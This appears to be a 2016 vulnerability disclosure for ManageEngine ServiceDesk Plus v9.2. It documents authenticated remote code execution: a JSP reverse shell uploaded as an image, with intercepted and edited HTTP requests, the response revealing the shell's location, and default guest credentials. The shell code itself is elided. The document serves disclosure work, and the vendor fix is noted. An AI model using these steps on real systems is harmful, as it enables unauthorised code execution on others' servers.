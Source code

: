 # manageeningefileupload


Exploit Title: Authenticated Remote Code Execution via File Upload Vulnerability in ManageEngine ServiceDesk Plus (Authenticated)


Date: 14-Nov-2016


Discovered by Omer Alper Karakus (omeralperkarakus[at]gmail.com), Abdullah Sinan Sekerci (lpthread999[at]gmail.com), Anil Aytac (4nl[at]aytac.email), Asli Koksal (koksal.a[at]gmail.com), STM


Affected Product: ManageEngine ServiceDesk Plus


Tested on: v9.2 build number 9232


File upload vulnerability can only be exploited by an authenticated user which can also be any low privileged user like guest (default account: u:guest/p:guest)
This vulnerability can be exploited by uploading a JSP file instead of image file. Since the file extension has been checked on the client side, it is possible to upload a jsp file which contains a reverse shell by intercepting the request and changing the file extension from .jsp.jpg to .jsp.

<pre>
REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp.jpg"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>

<pre>
EDITED REQUEST:
===========================================================================================
POST /jsp/UploadImage.jsp HTTP/1.1
Host: 192.168.56.142:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.142:8080/WorkOrder.do?1479198413617&
Cookie: JSESSIONID=FE6E5837539BFDE8DA78680F00B251A2; JSESSIONIDSSO=B469F14D393E3113D28896A41F79B0D8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------229512600118535
Content-Length: 1902

-----------------------------229512600118535
Content-Disposition: form-data; name="img_file"; filename="shell.jsp"
Content-Type: image/jpeg

{...JSP reverse shell code...}

-----------------------------229512600118535
Content-Disposition: form-data; name="zereqid"


-----------------------------229512600118535
Content-Disposition: form-data; name="Module"

WorkOrder
-----------------------------229512600118535--
</pre>
<pre>
After a succesful request, the response shows us the location of our reverse shell file:
RESPONSE
===========================================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 528
Date: Tue, 15 Nov 2016 08:27:55 GMT
Connection: close
Server: -
		&lt;script lang="JavaScript" type="text/JavaScript"&gt;
  		var formName = parent.document.getElementById("FORMNAME").value;
		var opts = parent.document.forms[formName].INLINEIMAGES.options;
		var imgName = "1479198475119.jsp";
		var option = new Option(imgName, imgName);
		option.selected = true;
		opts[opts.length] = option;
  		//alert("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");
  		parent.ZE.activeEditor.previewImage("/inline/"+"WorkOrder"+"/"+"4"+"/"+"1479198475119.jsp");//No i18n
		&lt;/script&gt;
</pre>		
		
<pre>
Timeline
======
 
15-Nov-2016 – Notification to Vendor
18-Nov-2016 – Response from Vendor
01-Dec-2016 - Issue has been fixed by vendor https://www.manageengine.com/products/service-desk/readme-9.2.html
</pre>
